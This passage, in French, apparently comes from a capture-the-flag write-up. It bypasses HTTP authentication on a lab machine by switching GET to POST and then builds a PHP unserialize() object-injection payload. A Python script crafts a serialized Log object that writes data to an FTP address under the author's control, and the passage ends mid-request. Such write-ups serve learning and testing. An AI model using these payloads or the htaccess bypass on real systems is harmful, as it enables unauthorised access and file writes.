 Ok... and now what ?  

On peut reprendre la classe Log, instancier un objet puis le sérializer :  

```php
$l = new Log();
$l->filename = "index.php";
$l->data = "hi there";
echo urlencode(serialize($l));
```

Mais après on l'injecte comment ? Via l'authentification HTTP ? Marche pas :'(   

On se dit alors que peut être l'authentification est mal écrite et qu'il est facile de la bypasser. Pou cela je dégaine wapiti3 (version de développement) :  

```plain
./bin/wapiti http://192.168.1.43/ -s http://192.168.1.43/index.php -m htaccess --color
```

Et le miracle s'accomplit :   

![Wapiti htaccess bypass](https://raw.githubusercontent.com/devl00p/blog/master/images/wapiti3_htaccess_bypass.png)

Mégateuf Wayne ! On peut accéder à la page si on effectue par exemple un POST à la place d'un GET sur */index.php*.  

La page découverte contient un formulaire qui envoie le contenu sérialisé suivant sur elle même :  

```plain
O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}
```

Il faut donc utiliser l'appel à *unserialize()* effectué par la page pour exploiter la classe *Log* vu plus haut.  

Explorons cette nouvelle contrée
--------------------------------

Après moult essais à essayer de tirer quelque chose de la fonction *eval()* de la classe *Log* (on recopie les scripts pour tester en local), force est de constater que celle-ci est une sirène destinée à nous séduire et nous retarder dans notre quête !  

Un *echo* bien placé permet de comprendre que l'on peut rien en tirer.  

Le *file\_put\_contents* est donc bien prometteur mais l'option *FILE\_APPEND* a de quoi refroidir :-(   

Comment savoir qu'on va bien écrire ce que l'on souhaite où on le souhaite ? On peut commencer par exploiter les fonctionnalités avancés du langage PHP, notamment les wrappers.  

J'ai écrit le code suivant qui tente d'écrire à une adresse FTP sous notre contrôle :  

```python
from urllib.parse import quote, unquote
import requests

original_payload = 'O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}'

base_payload = 'O:3:"Log":2:{s:8:"filename";s:SIZE1:"OUTPUT_FILE";s:4:"data";s:SIZE2:"INJECTION";}'

injection = "nawak"
output_file = "ftp://test:test@192.168.1.6/toto"

new_payload = base_payload.replace("SIZE1", str(len(output_file))).replace("OUTPUT_FILE", output_file)
new_payload = new_payload.replace("SIZE2", str(len(injection))).replace("INJECTION", injection)
print(new_payload)

response = requests.post(
```